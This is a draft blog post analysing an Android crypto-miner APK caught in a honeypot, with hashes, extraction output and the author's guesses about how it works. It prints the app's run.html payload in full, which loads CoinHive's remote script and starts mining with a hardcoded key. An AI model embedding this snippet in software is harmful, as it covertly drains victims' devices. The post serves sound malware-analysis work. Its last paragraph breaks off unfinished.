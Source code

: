 ```yaml
---
slug: fishing-for-malware-2
title: "Fishing for Malware — Part Two: Android Crypto Miner"
authors: [sid]
keywords: ['sid', 'lacy', 'blog', 'website', 'cybersecurity', 'security', 'computer', 'honeypot', 'malware', 'tech', 'network']
tags: [analysis, projects]
description: "Analysis of malware dropped into my Google Cloud honeypot — pulling apart a rudimentry Android cypto miner"
summary: "Analysis of malware dropped into my Google Cloud honeypot — pulling apart a rudimentry Android cypto miner"
date: 2022-01-23
draft: true
---
```


## Information

### Indicators of Compromise

 - MD5: `8844985fcd57b0311d1d4cb2ec13a1ef`
 - SHA-1: `a0c07fe897515e5575a72f94f9dea8c077a410ff`
 - SHA-256: `0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257`
 - Package name: `com.ufo.miner`
 - Connected domain: `coinhive.com`
 - Unexpected high utilization of Android device resources

 ### File
 - Magic: APK archive
 - Language: Java
 - Size: 45.43 KB

[*See this file on VirusTotal*](https://www.virustotal.com/gui/file/0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257/detection)

As the heading and package name imply, this is a crypto miner developed for Android devices. However, that isn't particularly interesting on its own, and 45.43 KB is small — suspiciously small — so let's take a look inside the file.

## Source

### Extraction

```bash
$ unzip 0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257.raw.zip 
Archive:  0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257.raw.zip
  inflating: META-INF/MANIFEST.MF    
  inflating: META-INF/CERT.SF        
  inflating: META-INF/CERT.RSA       
 extracting: res/drawable-xhdpi-v4/ic_launcher.png  
  inflating: AndroidManifest.xml     
 extracting: res/drawable-hdpi-v4/ic_launcher.png  
  inflating: res/layout/activity_main.xml  
  inflating: assets/run.html         
 extracting: resources.arsc          
 extracting: res/drawable-mdpi-v4/ic_launcher.png  
  inflating: classes.dex             
 extracting: res/drawable-xxhdpi-v4/ic_launcher.png  
  inflating: res/menu/main.xml     
  
$
```
I see an HTML file, some PNG images, and some other files, the extensions of which I am not familiar with. Let's check them out.

```bash
$ cat assets/run.html
```
```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
    var miner = new CoinHive.Anonymous('fwW95bBFO91OKUsz1VhlMEQwxmDBz7XE',{
        threads:4,
        throttle: 0.8
});
    miner.start();
</script>
```

Sigh. It remains boring. *However,* by searching for the crypto wallet hardcoded into the HTML, I came across a presentation from [Fortinet](https://www.blackalps.ch/ba-18/files/talks/BlackAlps18-Axelle_Apvrille.pdf), indicating that this CoinHive-related malware may have been a part of the [Trinity Android P2P malware bot](https://blogs.keysight.com/blogs/tech/nwvs.entry.html/2020/11/22/trinity_p2p_malware-8S4I.html), which *is* quite interesting. Alas, that is a rabbit hole for another blog post.

Each PNG was a rescaled version of the stock Android logo — not much to say beyond that.

How I assume this malware works:

1. The victim's stock web browser embeds into an app frame in the background.

2. Instructions are received from CoinHive.

3. The miner starts working, sending proof of work to the address hardcoded into the script.

4. The victim's phone gets too hot, or the battery drains too fast; upon seeing the culprit as *com.ufo.miner* in the power report of the device, the victim promptly uninstalls the application.

## Personal Thoughts

This is a very small application and doesn't perform any particularly special operations; in fact, I debated including it in this series. More interesting that the malware itself to me, however, is the platform it targets.

In the context of cryptocurrency mining, Android devices are not particularly powerful, and therefore not as lucrative as most other computing machines. It would take a vast, vast array of Adnoird smartphjoneas and tablets to 
---

Sid Lacy  
[Email](mailto:contact@swlacy.com?subject=Hello!) • [LinkedIn](https://www.linkedin.com/in/lacysw/) • [GitHub](https://github.com/lacysw)